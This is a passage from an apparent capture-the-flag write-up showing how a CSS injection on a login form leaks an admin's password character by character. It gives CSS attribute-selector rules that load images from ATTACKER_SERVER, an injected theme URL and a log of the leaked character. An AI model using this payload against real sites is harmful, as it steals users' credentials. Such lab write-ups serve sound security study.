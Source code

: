 ```css
input[name="password"][value^="Z"] {
    background-image: url("https://ATTACKER_SERVER/Z");
}
input[name="password"][value^="0"] {
    background-image: url("https://ATTACKER_SERVER/0");
}
input[name="password"][value^="1"] {
    background-image: url("https://ATTACKER_SERVER/1");
}
input[name="password"][value^="2"] {
    background-image: url("https://ATTACKER_SERVER/2");
}
input[name="password"][value^="3"] {
    background-image: url("https://ATTACKER_SERVER/3");
}
input[name="password"][value^="4"] {
    background-image: url("https://ATTACKER_SERVER/4");
}
input[name="password"][value^="5"] {
    background-image: url("https://ATTACKER_SERVER/5");
}
input[name="password"][value^="6"] {
    background-image: url("https://ATTACKER_SERVER/6");
}
input[name="password"][value^="7"] {
    background-image: url("https://ATTACKER_SERVER/7");
}
input[name="password"][value^="8"] {
    background-image: url("https://ATTACKER_SERVER/8");
}
input[name="password"][value^="9"] {
    background-image: url("https://ATTACKER_SERVER/9");
}
```
{% endcode %}

Then send the admin our CSS URL.

{% code overflow="wrap" %}
```
https://fancy-login-form.ctf.zone/?theme=https://ATTACKER_SERVER/css/ocean
```
{% endcode %}

In our HTTP log, we'll get the first character of the password ("F")!

{% code overflow="wrap" %}
```bash
HTTP Requests
-------------
21:06:37.376 BST GET /F                         404 File not found
21:06:36.748 BST GET /css/ocean.css             200 OK
```
{% endcode %}
